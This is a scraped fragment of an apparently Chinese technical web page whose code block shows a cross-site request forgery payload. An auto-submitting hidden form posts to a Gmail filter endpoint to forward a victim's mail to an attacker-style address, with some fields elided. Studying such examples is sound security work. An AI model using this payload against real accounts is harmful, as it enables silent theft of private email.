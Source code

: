 &lt;/script&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="hljs accesslog"><code>&lt;form method=<span class="hljs-string">&quot;<span class="hljs-keyword">POST</span>&quot;</span> action=<span class="hljs-string">&quot;https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf&quot;</span> enctype=<span class="hljs-string">&quot;multipart/form-data&quot;</span>&gt; 
    &lt;input type=<span class="hljs-string">&quot;hidden&quot;</span> name=<span class="hljs-string">&quot;cf2_emc&quot;</span> value=<span class="hljs-string">&quot;true&quot;</span>/&gt; 
    &lt;input type=<span class="hljs-string">&quot;hidden&quot;</span> name=<span class="hljs-string">&quot;cf2_email&quot;</span> value=<span class="hljs-string">&quot;hacker@hakermail.com&quot;</span>/&gt; 
    .....
    &lt;input type=<span class="hljs-string">&quot;hidden&quot;</span> name=<span class="hljs-string">&quot;irf&quot;</span> value=<span class="hljs-string">&quot;on&quot;</span>/&gt; 
    &lt;input type=<span class="hljs-string">&quot;hidden&quot;</span> name=<span class="hljs-string">&quot;nvp_bu_cftb&quot;</span> value=<span class="hljs-string">&quot;Create Filter&quot;</span>/&gt; 
&lt;/form&gt; 
&lt;script&gt; 
    document.forms<span class="hljs-string">[0]</span>.submit();